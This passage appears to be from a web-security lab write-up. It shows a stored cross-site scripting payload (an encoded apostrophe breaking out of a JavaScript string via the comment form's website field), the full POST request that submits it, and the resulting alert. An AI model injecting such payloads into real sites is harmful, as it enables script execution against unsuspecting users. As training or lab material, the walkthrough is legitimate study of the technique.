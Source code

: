 ![img](media/6daed45836eeff513e7902a30aa7de21.png)

We will use “'” next:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
http://test4.com&apos;);alert(1);//
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /post/comment HTTP/2
...

csrf=e8yz3UQ62qX7CBfs9PFEanjwdYjzbaMz&postId=1&comment=test1&name=test2&email=test3%40test.com&website=http%3A%2F%2Ftest4.com%26apos;);alert(1)%3b//
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

When clicking the username an alert pops:

![img](media/27cd9369fd0a55c98acb2bbc0f633c43.png)

